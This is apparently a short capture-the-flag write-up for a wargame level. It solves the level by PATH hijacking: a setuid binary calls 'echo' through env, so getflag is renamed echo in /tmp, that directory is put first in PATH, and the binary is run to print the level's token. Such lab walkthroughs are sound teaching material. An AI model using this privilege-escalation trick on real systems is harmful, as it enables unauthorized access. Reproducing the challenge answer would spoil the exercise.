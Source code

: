 # Level03

    level03: ls -al
    dr-x------ 1 level03 level03  120 Mar  5  2016 .
    d--x--x--x 1 root    users    340 Aug 30  2015 ..
    -r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
    -r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
    -rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
    -r-x------ 1 level03 level03  675 Apr  3  2012 .profile
    level03: ./level03
    Exploit me
    level03: strings level03
    ...
    /usr/bin/env echo Exploit me
    ...
 We now see that echo is used by the binary level03, 
 we are gonna trick the binary into using getflag instead of echo:
 

    mkdir /tmp/test
    cp /bin/getflag /tmp/test
    cd /tmp/test
    mv getflag echo
    export PATH=/tmp/test:$PATH
    ./level03
    Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
